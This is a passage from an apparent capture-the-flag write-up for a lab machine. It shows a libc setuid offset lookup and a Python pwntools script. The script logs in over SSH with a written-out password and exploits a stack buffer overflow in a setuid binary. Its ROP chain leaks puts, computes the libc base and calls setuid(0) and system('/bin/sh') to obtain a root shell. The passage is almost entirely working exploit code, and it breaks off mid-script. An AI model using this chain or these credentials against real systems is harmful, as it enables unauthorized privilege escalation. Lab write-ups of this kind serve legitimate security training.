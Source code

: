 Therefore, we just need to find one more offset to setuid within libc:
```
margo@ellingson:~$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep setuid@
    23: 00000000000e5970   144 FUNC    WEAK   DEFAULT   13 setuid@@GLIBC_2.2.5
margo@ellingson:~$ 
```
Our final exploit script (including stuff I added to debug the binary locally) is this:
```python=
from pwn import *

#Define global vars below:
type = 1 #Change this to 1 when exploiting remotely, otherwise leave it as 0
pop_rdi_gadget = 0x40179b
puts_got = 0x404028
puts_plt = 0x401050
auth = 0x401513

if type == 1:
	login = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
	sh = login.process('/usr/bin/garbage')
	puts_offset = 0x809c0
	system_offset = 0x4f440
	binsh_offset = 0x1b3e9a

	setuid_offset = 0xe5970

else:
	sh = process('./garbage')
	puts_offset = 0x71b80
	system_offset = 0x44c50
	binsh_offset = 0x181519



payload = "A"*136
payload += p64(pop_rdi_gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(auth)

sh.sendline(payload)
sh.recvline()
sh.recvline()

puts = u64(sh.recv(6).ljust(8, '\x00'))
libc_base = puts - puts_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset
setuid = libc_base + setuid_offset

log.success("Address of puts in libc: " + hex(puts))
log.success("Address of libc base: " + hex(libc_base))
log.success("Address of setuid in libc: " + hex(setuid))
log.success("Address of system in libc: " + hex(system))
log.success("Address of binsh string in libc: " + hex(binsh))

payload = "B"*136
payload += p64(pop_rdi_gadget)
payload += p64(0x0)
payload += p64(setuid)

payload += p64(pop_rdi_gadget)
payload += p64(binsh)
payload += p64(system)
```